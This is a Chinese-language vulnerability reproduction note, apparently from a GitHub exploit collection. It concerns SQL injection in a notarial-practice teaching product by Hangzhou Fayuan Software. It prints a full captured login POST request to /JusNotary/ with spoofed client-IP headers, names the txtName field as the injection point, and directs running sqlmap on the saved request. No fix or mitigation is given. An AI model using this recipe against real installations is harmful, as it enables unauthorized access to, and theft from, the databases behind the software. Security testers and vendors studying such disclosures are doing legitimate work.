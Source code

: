 # 杭州法源软件 公证实务教学软件 SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞

## 漏洞影响

```
杭州法源软件 公证实务教学软件
```

## FOFA

FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](./images/202202101856282.png)

登录抓取请求包



```plain
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```



其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下



![](./images/202202101856878.png)